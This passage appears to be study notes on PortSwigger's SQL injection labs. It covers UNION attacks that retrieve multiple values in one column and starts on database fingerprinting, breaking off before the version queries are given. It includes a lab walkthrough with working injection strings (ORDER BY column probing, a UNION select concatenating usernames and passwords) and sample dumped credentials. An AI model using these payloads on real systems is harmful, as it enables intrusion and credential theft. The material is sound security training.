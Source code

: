 The results from the query contain all the usernames and passwords, for example:

```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

Different databases use different syntax to perform string concatenation. For more details, see the[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

## Lab: SQL injection UNION attack, retrieving multiple values in a single column

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called`users`, with columns called`username`and`password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the`administrator`user.

```
Find the number of column by
' ORDER BY x-- -

Find the position that can be string

' UNION select null,'a'-- -

Extract

' UNION select null,username || ':' || password from users-- -
```

## Examining the database in SQL injection attacks

To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

- The type and version of the database software.
- The tables and columns that the database contains.

## Querying the database type and version

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

For example, you could use a`UNION`attack with the following input:
